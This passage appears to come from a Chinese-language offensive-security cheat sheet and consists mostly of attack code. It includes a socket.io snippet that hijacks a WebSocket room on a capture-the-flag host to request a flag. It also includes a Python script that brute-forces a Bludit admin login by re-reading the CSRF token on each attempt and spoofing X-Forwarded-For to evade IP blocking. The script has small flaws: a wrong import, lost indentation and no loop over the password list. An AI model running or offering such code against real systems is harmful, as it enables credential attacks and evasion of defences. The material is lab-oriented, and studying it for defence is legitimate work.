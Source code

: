 ```html
<script src="https://cdn.jsdelivr.net/npm/socket.io-client@2/dist/socket.io.js"></script>
<script>
let socket = io('http://six.jh2i.com:50022/test');

const username = 'admin'

socket.on('connect', () => {
console.log('connected!');
socket.emit('join', {
room: username
});
socket.emit('my_room_event', {
data: '!flag',
room: username
})

});
</script>
```
## CSRF 登录暴力破解

该代码可用于通过 CSRF 令牌对登录表单进行暴力破解（它还使用了 X-Forwarded-For 头来尝试绕过可能的 IP 黑名单）：
```python
import request
import re
import random

URL = "http://10.10.10.191/admin/"
PROXY = { "http": "127.0.0.1:8080"}
SESSION_COOKIE_NAME = "BLUDIT-KEY"
USER = "fergus"
PASS_LIST="./words"

def init_session():
#Return CSRF + Session (cookie)
r = requests.get(URL)
csrf = re.search(r'input type="hidden" id="jstokenCSRF" name="tokenCSRF" value="([a-zA-Z0-9]*)"', r.text)
csrf = csrf.group(1)
session_cookie = r.cookies.get(SESSION_COOKIE_NAME)
return csrf, session_cookie

def login(user, password):
print(f"{user}:{password}")
csrf, cookie = init_session()
cookies = {SESSION_COOKIE_NAME: cookie}
data = {
"tokenCSRF": csrf,
"username": user,
"password": password,
"save": ""
}
headers = {
"X-Forwarded-For": f"{random.randint(1,256)}.{random.randint(1,256)}.{random.randint(1,256)}.{random.randint(1,256)}"
}
r = requests.post(URL, data=data, cookies=cookies, headers=headers, proxies=PROXY)
if "Username or password incorrect" in r.text:
return False
else:
print(f"FOUND {user} : {password}")
return True
```